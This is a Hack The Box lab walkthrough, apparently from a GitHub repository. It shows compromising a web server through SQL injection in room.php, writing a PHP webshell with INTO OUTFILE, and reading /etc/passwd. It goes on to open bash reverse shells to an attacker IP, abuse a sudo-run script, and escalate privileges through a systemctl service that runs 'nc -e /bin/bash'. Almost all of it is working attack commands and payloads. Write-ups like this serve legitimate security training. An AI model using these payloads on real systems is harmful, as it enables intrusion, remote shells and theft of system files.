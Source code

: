 ```
SQL injection
http://10.10.10.143/room.php?cod=2 and 1=1
Webshell
http://10.10.10.143/room.php?cod=-2 UNION SELECT 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.3/1234 0>&1"'
sudo -l
Reverse Shell - Bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py –p
find / -perm -4000 2>/dev/null
LinEnum
PrivEsc - SUID systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)


```
http://10.10.10.143/room.php?cod=2%20UNION%20SELECT%201,2,3,4,5,6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3378196-1f96-4498-80f3-f98126a10cb9)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%20@@version,2,3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d80371a3-ed4b-47d9-affa-b27701b9a6e0)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4,5,6,7%20fRoM%20information_schema.schemata
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c55adc4-ecb8-406c-96cd-15128c20c4ba)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7%20into%20outfile%20%27/var/www/html/hacked.txt%27
http://10.10.10.143/hacked.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35d70a8f-2890-487a-a5a3-fc324b50d5e8)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,%27%3C?php%20system($_REQUEST[%22exec%22]);?%3E%27,3,4,5,6,7%20into%20outfile%20%27/var/www/html/pwned.php%27
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/726e93c7-7eaa-4d83-9219-6744746e6189)


```
nc -nlvp 1234
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.3/1234 0>&1"'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ad41ebca-08db-4c49-ab26-25955092ca08)


```
sudo -l
```
![image](https://github.com/regarmulia/HTB/assets/33616880/04e0ed8e-6136-4ade-bbda-432ac36ccb07)


```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py –p
nc -nlvp 4444
```
![image](https://github.com/regarmulia/HTB/assets/33616880/58d9e518-fc9b-448b-8017-e562b141876b)


```
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5cef9fdc-3e1c-4ae1-b0a2-b2382661c442)


```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



